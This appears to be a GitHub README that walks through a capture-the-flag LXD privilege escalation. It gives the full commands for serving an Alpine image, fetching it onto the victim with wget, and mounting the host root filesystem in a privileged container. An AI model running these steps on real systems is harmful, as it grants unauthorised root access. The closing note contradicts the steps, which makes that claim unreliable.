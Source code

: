 # Lxd-Privilege-Escalation-in-Linux
In this writeup we will cover how a member of a local “lxd” group can instantly escalate the privileges to root on the host operating system.


This script provides a way to create [Alpine Linux](http://alpinelinux.org/)
images for their use with [LXD](https://linuxcontainers.org/lxd/).
It's based off the LXC templates.

The image will be built just by installing the `alpine-base` meta-package.
Networking and syslog are enabled by default.


## Usage

In order to build the latest Alpine image just run the script (must be done
as root):

    sudo ./build-alpine

For more options check the help:

    sudo ./build-alpine -h

After the image is built it can be added as an image to LXD as follows:

    lxc image import alpine-v3.3-x86_64-20160114_2308.tar.gz --alias alpine-v3.3





## Follow the Steps in CTF:

#### First, run the id command to check whether your user belongs to the lxd group or not.
 
```
id
```

![ID](./img/id.png)
#



#### If lxd is listed, then continue.
#### Download a this Alpine Linux container image from github.
```
git clone https://github.com/zaaraZiof0/Lxd-Privilege-Escalation-in-Linux.git
```

![Git Clone](./img/gitclone.png)
#


#### Now share this image file alphine-v3.13-x86_64-20210218_0139.tar.gz to the victim machine.
```
python3 -m http.server 80
```

![Python Server](./img/server.png)
#


#### Download the image file with wget command.
```
wget 10.8.9.235/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

![Download with wget](./img/wget.png)
#


#### Now import this lxd container into lxd environment and give it an alias.
```
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
```

![fringerPrint](./img/fringer.png)
#


#### Display a list of all the images stored in the local LXD image store
```
lxc image list
```

![ALIAS](./img/alias.png)
#


#### Now run the following command one by one.
```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![](./img/gain.png)
#


#### Navigate to /mnt/root to access the host's filesystem with root privileges
```
cd /mnt/root
```

![flag](./img/flag.png)

#### Now here we have full control within the container.

#

### Note: Being root inside a container doesn’t automatically translate to having root access on the host system, as containers are designed to isolate processes.

#### Happy Hacking…. | ZAARA
